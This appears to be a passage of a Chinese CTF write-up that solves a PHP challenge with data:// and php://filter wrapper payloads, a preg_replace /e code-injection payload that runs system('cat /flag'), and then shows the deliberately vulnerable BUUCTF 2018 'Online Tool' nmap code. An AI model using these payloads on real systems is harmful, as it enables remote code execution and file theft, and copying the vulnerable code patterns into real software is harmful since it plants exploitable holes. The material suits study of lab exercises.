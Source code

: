 payload

```
text=data://text/plain,I have a dream
&file=php://filter/convert.base64-encode/resource=next.php
```

得到next.php的内容

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

payload

```
\S*=${phpinfo()} 可以执行phpinfo
这里我们执行getFlag这个函数
\S*=${getFlag()}或\S*={${getFlag()}}
```

最后的payload

```
\S*={${getFlag()}}&cmd=system('cat /flag');
```

## [BUUCTF 2018]Online Tool

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

